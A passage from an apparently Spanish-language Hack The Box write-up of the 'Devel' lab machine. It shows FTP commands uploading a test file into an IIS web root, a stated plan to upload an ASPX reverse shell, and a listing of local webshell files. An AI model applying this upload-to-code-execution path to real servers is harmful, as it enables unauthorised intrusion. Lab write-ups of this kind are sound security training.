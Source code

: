 ```bash
226 Transfer complete.
ftp> 
```

De los recursos observados en el servidor FTP, se observan que podrían estár relacionados con el sitio web que hace uso de Microsoft IIS 7.5, por lo que es posible que podamos subir archivo y visualizarlos por la web. Hacemos un archivo de prueba para validar.

```bash
❯ catn test.htm
<html>
<body>
	<pre>Test</pre>
</body>
</html>
```

```bash
ftp> put test.htm
local: test.htm remote: test.htm
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
51 bytes sent in 0.00 secs (1.0573 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
08-29-21  12:32AM                   51 test.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Accediendo al recurso http://10.10.10.5/test.htm observamos nuestro código subido, por lo que los archivos que subamos por FTP se encuentran asociados al sitio web. Ahora, sabiendo que IIS maneja archivos de extensión **aspx**, podemos crear un archivo con dicha extensión que nos entable una reverse shell hacia nuestro equipo de atacante. Se podría pensar en generar un archivo PHP; sin embargo, con `whatweb` o el plugin *wappalyzer* no observamos que el servidor nos pueda interpretar código php.

![""](/assets/images/htb-devel/devel-test.png)

Primero, buscamos archivo en nuestro sistema que nos puedan ayudar:

```bash
❯ locate webshell | grep asp
/usr/share/webshells/asp
/usr/share/webshells/asp/cmd-asp-5.1.asp
/usr/share/webshells/asp/cmdasp.asp
/usr/share/webshells/aspx
/usr/share/webshells/aspx/cmdasp.aspx
```
